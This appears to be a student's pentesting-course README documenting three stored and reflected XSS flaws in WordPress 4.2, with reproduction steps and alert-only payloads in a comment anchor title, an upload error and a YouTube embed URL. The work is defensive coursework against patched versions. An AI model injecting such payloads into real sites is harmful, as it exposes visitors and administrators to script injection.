



# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1 
  - [x] GIF Walkthrough:
    - 
  - [x] Steps to recreate:
    * Attempted the POC by going to wpdistillery.vm (WP 4.2 instance) and add the following comment:
      ```HTML
     <a title='x onmouseover=alert(unescape(/XSS!/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
      ``` 
    * When admin reloaded the page, the alert occured. 
  - [ ] Affected source code:
    - Unable to find affected source code.
2. Large File Upload Error XSS
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.15 
  - [x] GIF Walkthrough: 
    - 
  - [x] Steps to recreate: 
    * Used the following CLI to create a 20MB file:
      ```bash
      “mkfile -n 20m "Dinosaurs secret life.png" to create a 30MB file.
      ```
    * Went to /wp-admin/media-new.php to upload the file.
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-includes/js/plupload/handlers.js)
3. Authenticated Stored Cross-Site Scripting (XSS) in Youtube URL embeds
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: 
    -  
  - [x] Steps to recreate: 
    * Went to WPdistillery front page.
    * Pasted the following into the comments field:
    ```
    https://youtube[.]com/watch?v=abc<svg onload=alert(“XSS!”)>
    ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/trunk/src/wp-includes/embed.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Kamber Borders

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
